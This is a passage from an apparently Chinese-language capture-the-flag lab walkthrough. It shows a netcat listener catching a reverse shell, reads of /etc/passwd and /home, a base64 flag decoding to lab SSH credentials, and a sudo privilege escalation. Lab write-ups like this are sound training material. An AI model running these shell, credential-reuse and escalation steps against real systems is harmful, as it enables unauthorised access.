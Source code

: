 kali开启侦听

```
nc -nvlp 4444
```

![image-20220216143055578](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216143055578.png)

![image-20220216142807426](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216142807426.png)

成功反弹shell

![image-20220216143312167](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216143312167.png)

查看/etc/passwd文件

![image-20220216143455257](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216143455257.png)

查看/home目录

![image-20220216143717439](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216143717439.png)

拿到第一个flag

```
c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=
```

### SSH登陆

尝试base64解码

![image-20220216143832430](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216143832430.png)

```
ssh : 
user : yousef 
pass : yousef123
```

解码完成后信息显示是ssh的账号密码（之前端口扫描确实存在22端口的ssh）

尝试连接

![image-20220216144327107](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20220216144327107.png)

### 利用sudo提权

用户yousef有sudo权限

```
sudo -l
```

发现可以sudo执行所有命令

```
sudo -s
```
